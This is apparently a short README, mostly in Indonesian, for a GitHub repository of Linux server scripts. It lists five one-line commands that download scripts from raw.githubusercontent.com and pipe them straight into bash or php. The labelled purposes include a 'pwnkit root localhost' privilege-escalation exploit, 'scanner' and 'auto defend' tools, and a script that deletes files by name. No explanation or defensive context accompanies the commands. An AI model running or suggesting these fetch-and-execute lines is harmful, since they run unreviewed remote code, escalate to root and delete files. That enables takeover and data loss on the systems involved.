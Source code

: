# fungsiini Command line linux
# Robot Mabok Anti

1, scaner cepat 
wget https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/sca.sh -q -O - |bash

2, backup auto defend

curl -s githubusercontent.com/heck221/fungsiini/refs/heads/main/cod.php | php - backup y

3, scanner powerfull 

curl -s https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/outsca.php | php

4, pwnkit root localhost

wget https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/pwk.sh -q -O - |bash

5, Mendelet berdasarkan nama file kon7l

curl -s https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/delet.php | php namafile.php

